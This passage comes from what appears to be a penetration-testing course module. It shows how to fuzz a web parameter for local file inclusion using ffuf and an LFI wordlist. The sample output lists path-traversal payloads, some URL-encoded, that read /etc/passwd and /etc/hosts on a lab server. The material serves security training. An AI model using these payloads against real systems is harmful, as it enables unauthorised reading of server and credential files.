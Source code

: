 **Tip:** For a more precise scan, we can limit our scan to the most popular LFI parameters found on this [link](https://book.hacktricks.xyz/pentesting-web/file-inclusion#top-25-parameters).

---

## LFI wordlists

So far in this module, we have been manually crafting our LFI payloads to test for LFI vulnerabilities. This is because manual testing is more reliable and can find LFI vulnerabilities that may not be identified otherwise, as discussed earlier. However, in many cases, we may want to run a quick test on a parameter to see if it is vulnerable to any common LFI payload, which may save us time in web applications where we need to test for various vulnerabilities.

There are a number of [LFI Wordlists](https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/LFI) we can use for this scan. A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. We can use this wordlist to fuzz the `?language=` parameter we have been testing throughout the module, as follows:

  Automated Scanning

```shell-session
trmchale@htb[/htb]$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287

...SNIP...

 :: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?FUZZ=key
 :: Wordlist         : FUZZ: /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

..%2F..%2F..%2F%2F..%2F..%2Fetc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../../../../../../../etc/hosts [Status: 200, Size: 2461, Words: 636, Lines: 72]
...SNIP...
../../../../etc/passwd  [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
../../../../../../etc/passwd&=%3C%3C%3C%3C [Status: 200, Size: 3661, Words: 645, Lines: 91]
..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2F..%2Fetc%2Fpasswd [Status: 200, Size: 3661, Words: 645, Lines: 91]
/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd [Status: 200, Size: 3661, Words: 645, Lines: 91]
```

As we can see, the scan yielded a number of LFI payloads that can be used to exploit the vulnerability. Once we have the identified payloads, we should manually test them to verify that they work as expected and show the included file content.

---